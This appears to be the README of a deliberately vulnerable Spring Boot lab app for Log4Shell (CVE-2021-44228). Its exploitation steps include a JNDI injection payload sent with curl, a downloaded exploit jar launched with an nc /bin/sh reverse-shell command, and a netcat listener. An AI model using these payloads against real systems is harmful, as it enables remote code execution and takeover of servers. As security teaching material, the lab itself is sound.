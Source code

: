 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C nc <privateIP> 8083 -e /bin/sh -A <privateIP>
```

* Then, trigger the exploit using:

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/<randomString>}'
```

* Then, listen from the attacking machine on the port we want to receive the connection
```bash
nc -lvp 8083
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
2021-12-15 10:42:16 [LDAPSERVER] >> Send LDAP reference result for lcogih redirecting to http://54.243.12.192:8180/ExecTemplateJDK8.class
2021-12-15 10:42:16 [JETTYSERVER]>> Log a request to http://54.243.12.192:8180/ExecTemplateJDK8.class
```

* To confirm that the code execution was successful, notice the shell opened with the attacker machine:


## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

